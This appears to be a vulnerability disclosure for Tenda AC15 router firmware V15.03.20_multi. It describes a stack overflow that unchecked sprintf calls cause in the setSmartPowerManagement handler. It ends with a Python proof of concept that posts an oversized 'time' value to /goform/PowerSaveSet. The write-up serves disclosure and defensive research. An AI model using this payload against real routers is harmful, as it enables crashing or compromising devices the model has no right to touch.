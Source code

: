 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `setSmartPowerManagement` function. The `v13` variable receives the `time` parameter from a POST request and `v13` is directly parsed into the `v10`, `v9`, `v8` and `v7`. However, since the user can control the input of `v13`, the statement `sprintf(s, "%s:%s", (const char *)v10, (const char *)v9); sprintf(v5, "%s:%s", (const char *)v8, (const char *)v7);` can cause a buffer overflow by  `v10`, `v9`, `v8` and `v7`. 

![image-20240305230652504](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305230652504.png)

![image-20240314175638006](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314175638006.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/PowerSaveSet"
payload = 'a'*1000 + ':aaaa-bbb:1'

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314175707090](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314175707090.png)
